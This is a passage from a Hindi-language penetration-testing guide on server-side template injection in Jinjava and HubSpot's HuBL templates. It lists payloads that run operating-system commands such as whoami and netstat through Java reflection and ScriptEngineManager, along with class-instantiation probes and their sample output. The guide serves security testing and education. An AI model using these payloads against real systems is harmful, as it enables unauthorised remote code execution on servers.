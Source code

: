 **Jinjava - कमांड निष्पादन**

[https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230) द्वारा ठीक किया गया
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
**अधिक जानकारी**

* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinjava)

### Hubspot - HuBL (Java)

* `{% %}` कथन सीमांकक
* `{{ }}` अभिव्यक्ति सीमांकक
* `{# #}` टिप्पणी सीमांकक
* `{{ request }}` - com.hubspot.content.hubl.context.TemplateContextRequest@23548206
* `{{'a'.toUpperCase()}}` - "A"
* `{{'a'.concat('b')}}` - "ab"
* `{{'a'.getClass()}}` - java.lang.String
* `{{request.getClass()}}` - class com.hubspot.content.hubl.context.TemplateContextRequest
* `{{request.getClass().getDeclaredMethods()[0]}}` - public boolean com.hubspot.content.hubl.context.TemplateContextRequest.isDebug()

"com.hubspot.content.hubl.context.TemplateContextRequest" के लिए खोजें और [Jinjava प्रोजेक्ट को Github पर खोजें](https://github.com/HubSpot/jinjava/).
```java
{{request.isDebug()}}
//output: False

//Using string 'a' to get an instance of class sun.misc.Launcher
{{'a'.getClass().forName('sun.misc.Launcher').newInstance()}}
//output: sun.misc.Launcher@715537d4

//It is also possible to get a new object of the Jinjava class
{{'a'.getClass().forName('com.hubspot.jinjava.JinjavaConfig').newInstance()}}
//output: com.hubspot.jinjava.JinjavaConfig@78a56797

//It was also possible to call methods on the created object by combining the



{% raw %}
{% %} and {{ }} blocks
{% set ji='a'.getClass().forName('com.hubspot.jinjava.Jinjava').newInstance().newInterpreter() %}
{% endraw %}


{{ji.render('{{1*2}}')}}
//Here, I created a variable 'ji' with new instance of com.hubspot.jinjava.Jinjava class and obtained reference to the newInterpreter method. In the next block, I called the render method on 'ji' with expression {{1*2}}.
```